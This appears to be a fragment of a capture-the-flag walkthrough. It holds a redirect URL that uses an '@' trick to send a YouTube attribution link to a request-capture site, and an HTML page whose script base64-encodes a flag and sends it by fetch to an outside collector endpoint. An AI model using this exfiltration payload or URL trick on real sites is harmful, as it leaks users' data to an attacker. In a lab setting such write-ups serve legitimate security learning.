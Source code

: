 https://youtube.com/attribution_link?u=https://m.youtube.com@requestinspector.com/inspect/01h6syjrr7k5qnh40r7grjr20x

index.html
```
<!DOCTYPE html>
<html>
<head>
    <title>Example</title>
</head>
<body>
    <script>
        

        window.win = function(flag) {
            const encodedData = btoa(flag);
            fetch(`https://requestinspector.com/inspect/01h6tm8t5rg12stgds6h934hf7/?cc=${encodedData}`, {mode: 'no-cors'})
            console.log(encodedData);
        };

        
    </script>
</body>
</html>

```
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/850918d9-0b38-47b8-8c7e-64725352c3bd)

![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/7d4b2aa7-2e1a-48cb-ac89-c2431964b6f6)


